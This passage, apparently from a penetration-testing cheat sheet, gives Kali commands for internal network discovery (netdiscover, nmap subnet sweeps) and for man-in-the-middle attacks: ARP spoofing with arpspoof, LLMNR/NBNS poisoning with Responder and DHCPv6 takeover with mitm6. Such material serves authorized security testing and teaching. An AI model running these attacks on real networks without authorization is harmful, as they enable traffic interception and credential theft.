 ```
root@kali:$ netdiscover -i eth0 -r 192.168.0.1/24 -c 20
```



### Hunt for Subnets

* [hub.packtpub.com/optimize-scans/](https://hub.packtpub.com/optimize-scans/)

Take `10.0.0.0/8` as an example:

```
root@kali:$ nmap -n -sn 10.0-255.0-255.1 -oA subnets/gateways -PE --min-rate 10000 --min-hostgroup 10000
root@kali:$ grep 'Up' subnets/gateways.gnmap |cut -d' ' -f2 > subnets/ranges.txt

root@kali:$ sed -i subnets/ranges.txt -e 's/$/\/24/'
```

Passive traffic analyze. Look for broadcast/multicast, IPv6 packets:

* ARP
* LLMNR, NBNS
* STP
* DHCPv6, ICMPv6
* mDNS


#### Network attacks

##### ARP Spoofing

```
root@kali:$ arpspoof -c both -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```

* [www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)

##### LLMNR/NBNS Poisoning

```
root@kali:$ responder -w -F -vvv -I <eth#>
```

* [www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)

##### DHCPv6

```
root@kali:$ ./mitm6.py -i <eth#>
```

* [blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)


